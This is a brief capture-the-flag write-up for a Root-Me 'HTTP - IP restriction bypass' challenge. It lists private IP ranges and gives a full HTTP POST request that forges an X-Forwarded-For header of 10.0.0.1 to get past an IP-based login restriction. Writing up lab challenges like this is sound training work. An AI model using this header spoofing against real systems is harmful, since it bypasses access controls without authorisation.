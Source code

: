 # HTTP - IP restriction bypass

Internal IP

`10.0.0.0 - 10.255.255.255 (10/8 prefix)`

`172.16.0.0 - 172.31.255.255 (172.16/12 prefix)`

`192.168.0.0 - 192.168.255.255 (192.168/16 prefix)`

X-Forwarded-For: client, proxy1, proxy2

\->

```
POST /web-serveur/ch68/ HTTP/1.1
Host: challenge01.root-me.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: http://challenge01.root-me.org
Connection: close
Referer: http://challenge01.root-me.org/web-serveur/ch68/
Cookie: _ga_SRYSKX09J7=GS1.1.1660615125.1.1.1660616763.0; _ga=GA1.1.841472709.1660615125
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 10.0.0.1

login=aa&mdp=aa
```



